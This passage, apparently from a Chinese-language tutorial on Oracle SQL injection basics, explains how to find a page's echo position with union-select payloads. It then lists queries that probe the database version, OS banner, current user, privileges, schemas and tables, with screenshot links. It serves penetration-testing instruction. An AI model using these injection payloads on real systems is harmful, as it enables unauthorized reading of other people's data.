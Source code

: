 ![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_44_UZqMreBo.png)
错误页面：
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_45_c9xFwdHX.png)
#### 确定页面回显位
在这里知道了字段数为2，那么就要判断回显位了，使用`union select '1','2' form dual`将定义的数字显示在页面上，就可以判断页面的回显位了
注意：

- 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面现在了单行数据输出，我们让前边的select查询条件返回结果为空即可
- 注意一定要拼接够足够的字段数，否则SQL语句报错。PS：此方法也可作为判断前条select语句的方法之一
- 如果union前面的查询条件返回为空的情况下，也没有标记数字，这时候一般是类型出错，导致无法显示在页面，可以将数字更改未null，如下所示

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_45_wLZ7Pf3R.png)
#### 查询数据
通过第3步，找到回显位置之后，首先需要探测相关环境，如下所示
**探测Oracle版本**
```sql
select banner from v$version;
select banner from v$version where banner like 'Oracle%';
select version from v$instance;
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_45_9RXovZni.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_45_FuCnvIQE.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_45_Tjm3who7.png)
**探测操作系统版本**
```sql
select banner from v$version where banner like 'TNS%'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_46_LRVY30O6.png)
**探测当前数据库用户**
```sql
select user from dual;
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_46_gnZ4jABs.png)
**获取当前数据库用户权限**
```sql
select privilege from session_privs;
-- Oracle 实现limit 使用rownum，构造between...and...
select * from (select t.* ,rownum as no from (select * from session_privs)t) where no between 1 and 10
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_46_LDa0nyYV.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_46_t5xzQrNX.png)
Oracle 实现分页
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_46_Lo41dust.png)
**获取用户所拥有权限的数据库**
```sql
select distinct owner from all_tables
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_47_ReFgrIUJ.png)
由于Oracle 中使用 Schema 的概念将每个用户的数据进行分离，Schema 其实类似于命名空间（Namespace），默认情况下，Schema 的名称同用户名称相同。所以当前数据库为SYSTEM
**获取当前数据库中的表**
```sql
-- 所有用户的表
select distinct table_name from all_tables where owner = 'SYSTEM'
-- 当前用户的表
select table_name from user_tables;
-- 包括系统表
select table_name from dba_tables where owner = 'SYSTEM'; 
```